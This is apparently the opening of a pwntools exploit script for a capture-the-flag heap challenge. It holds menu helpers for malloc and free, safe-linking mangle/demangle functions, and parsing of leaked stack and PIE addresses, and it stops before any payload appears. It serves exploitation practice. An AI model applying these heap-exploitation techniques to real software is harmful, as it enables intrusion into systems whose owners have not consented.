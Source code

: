 ```python
context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def malloc(idx, size):
    target.sendlineafter(b": ", b"malloc")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendlineafter(b"Size: ", str(size).encode())


def free(idx):
    target.sendlineafter(b": ", b"free")
    target.sendlineafter(b"Index: ", str(idx).encode())


def puts(idx):
    target.sendlineafter(b": ", b"puts")
    target.sendlineafter(b"Index: ", str(idx).encode())


def scanf(idx, data):
    target.sendlineafter(b": ", b"scanf")
    target.sendlineafter(b"Index: ", str(idx).encode())
    target.sendline(data)


def quit():
    target.sendlineafter(b": ", b"quit")


def mangle(pos, ptr, shifted=1):
    if shifted:
        return pos ^ ptr
    return (pos >> 12) ^ ptr


def demangle(pos, ptr, shifted=1):
    if shifted:
        return mangle(pos, ptr)
    return mangle(pos, ptr, 0)


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    target.recvuntil(b"[LEAK] The local stack address of your allocations is at: ")
    stack = int(target.recvline().strip()[:-1], 16)
    ret = stack + 0x118

    target.recvuntil(b"[LEAK] The address of main is at: ")
    elf.address = int(target.recvline().strip()[:-1], 16) - 0x1B1B

    target.success(f"stack: {hex(stack)}")
    target.success(f"pie: {hex(elf.address)}")
```